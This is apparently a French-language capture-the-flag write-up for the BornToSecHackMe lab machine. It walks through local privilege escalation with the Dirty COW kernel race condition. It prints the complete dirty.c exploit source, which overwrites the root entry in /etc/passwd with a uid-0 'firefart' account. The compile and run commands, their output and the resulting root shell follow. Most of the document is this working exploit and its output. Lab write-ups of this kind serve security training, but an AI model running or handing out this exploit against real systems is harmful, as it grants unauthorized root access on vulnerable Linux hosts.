 # Dirtycow

On cherche à savoir sur quelle version de **Kernel** on est :
<pre><code>> uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 athlon i386 GNU/Linux
</code></pre>

On cherche sur *https://www.exploit-db.com* un exploit valable pour notre version de **Kernel**.

On trouve un exploit nommé **dirtycow** qui est basé sur une **race-condition-vulnerabilty** :

<pre>Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)</pre>

On se connecte en **ssh** à n'importe quel user (zaz ici), et on créé le fichier **dirty.c** : 
<pre><code>//
// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at
//

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf("madvise %d\n\n", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf("File %s already exists! Please delete it and run again\n",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, "r");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, "w");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  } else {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}
</code></pre>

On compile et execute :
<pre><code>> gcc -pthread dirty.c -o dirty -lcrypt
> ./dirty test
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: test
Complete line:
firefart:fi6bS9A.C7BDQ:0:0:pwned:/root:/bin/bash

mmap: b7fda000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
zaz@BornToSecHackMe:~$ madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

</code></pre>

On se connecte au nouvel user avec les ids :

<code>firefart</code>
<code>test</code>

<pre><code>su firefart
Password:
firefart@BornToSecHackMe:/home/zaz#
</code></pre>

Nous obtenons un terminal avec les droits **root** :
<pre><code>> id
uid=0(firefart) gid=0(root) groups=0(root)
</code></pre>
